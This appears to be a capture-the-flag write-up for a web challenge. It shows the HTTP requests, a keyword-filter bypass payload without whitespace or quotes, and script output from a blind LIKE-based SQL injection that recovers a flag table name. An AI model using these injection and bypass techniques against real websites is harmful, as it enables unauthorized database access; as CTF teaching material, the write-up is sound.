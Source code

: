 # WEB200
## Description
San Tzu Said : 

"Einstein would have been a good DBA, too ... 
What a DBA team : Shakespeare and Einstein ...
But who they will name tables ? that'is the question"

## Solution
According to the challenge's description, the flag in the name of a table (starting with FLAG_).
So We need to exploit an SQL injection to resolve this challenge.

We start by injecting a simple quote in the id parametre using the folowing HTTP request :

```
GET /index.php?id=%27 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Firefox/20.0 Iceweasel/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

But it seems that there is a filtering mechanism which block/detecte malicious charcters :

```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 22:45:40 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 17
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

Attack Detected !
```

First, we need to determine what pattern is used by the target in order to bypass it later. For example, we can try to inject all possible ascii code and compre response :

```
tmr@desktop:~$ python pattern_detector.py
[+]   is filtred  //whitespace
[+] " is filtred  //quotes
[+] ' is filtred
[+] / is filtred  // slache
[+] \ is filtred  // anti-slache
```


```
GET /demo/index.php?id=(null)or(1)=(1) HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Iceweasel
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

```
tmr@desktop:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using LIKE Technic 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
```
